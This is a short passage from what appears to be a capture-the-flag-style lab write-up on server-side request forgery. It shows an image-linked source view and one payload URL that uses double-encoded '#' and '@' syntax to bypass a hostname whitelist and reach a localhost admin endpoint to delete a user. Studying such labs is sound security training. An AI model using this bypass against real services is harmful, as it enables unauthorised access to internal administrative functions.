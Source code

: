 ![image](https://github.com/user-attachments/assets/75eb296a-3670-4844-9cf6-e8e7292e1474)


Now like before appending this to the end of the payload we solve the challenge

``http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos``

![image](https://github.com/user-attachments/assets/5cd4aa02-d24d-4fab-8c2f-67dfb5f2209b)

---

Proof of Solve:

![image](https://github.com/user-attachments/assets/e563ff21-61ac-46e8-9f09-a4ac4c00ec1c)


